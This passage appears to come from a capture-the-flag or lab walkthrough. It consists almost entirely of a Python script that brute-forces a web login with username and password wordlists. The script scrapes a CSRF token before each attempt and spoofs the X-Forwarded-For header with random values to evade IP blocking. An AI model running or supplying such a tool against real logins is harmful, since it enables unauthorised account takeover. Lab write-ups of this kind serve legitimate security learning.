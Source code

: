 ```py
args.add_argument("-u","--url",help="Url of the login page",type=str,required=True,dest="url")
args.add_argument("-w","--user-wordlist",help="Wordlist with the usernames to test",type=str,required=True,dest="users")
args.add_argument("-x","--passwd-wordlist",help="Wordlist with the passwords to test",type=str, required=True,dest="passwds")
args.add_argument("-v","--verbose",help="Show more detailed information",dest="verbose", action="store_true")
args = args.parse_args()

# Function definition
def obtain_CSRF(url, session):
    response = session.get(url=url)
    if (response.status_code == 200):
        # Get the CSRF token contained as input type hidden
        csrf_token = response.text.split('name="tokenCSRF" value="')[1].split('"')[0]
        if (args.verbose):
            print("[?] CSRF token obtained: " + csrf_token)
        return csrf_token

def try_credential(url, username, passwd, csrf, session):
    headers={
            "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36",
            "Referer":url,
            "X-Forwarded-For":str(randint(0,10000))
            }
    payload={
            "tokenCSRF":csrf,
            "username":username,
            "password":passwd,
            "save":''
            }
    if (args.verbose):
        print("[?] payload:{}".format(payload))
    response = session.post(url=url,data=payload,headers=headers,allow_redirects=False)
    #print(response.text)
    if 'IP address has been blocked' in response.text:
        print("[X] Address blocked")
        sys.exit(2)
    elif 'Username or password incorrect' not in response.text:
        print("[!] Credential found: User '{}' with password '{}'".format(username,passwd))
        sys.exit(1)

# Open wordlists
with open(args.users, "r") as users_file:
    with open(args.passwds, "r",errors="ignore") as passwd_file:
        n_users=0
        users = users_file.readlines()
        passwds = passwd_file.readlines()
        for user in users:
            session = requests.session()
            user = user.strip('\n')
            n_passwds = 0
            for passwd in passwds:
                passwd = passwd.strip('\n')
                csrf_token=obtain_CSRF(args.url, session)
                try_credential(args.url, user, passwd, csrf_token, session)
                print("User {}/{}, password {}/{} ({})\t".format(n_users,len(users),n_passwds,len(passwds),passwd),end='\r')
                n_passwds += 1
            n_users += 1
```
Let's use the `fergus` user enumerated earlier and try to obtain its password: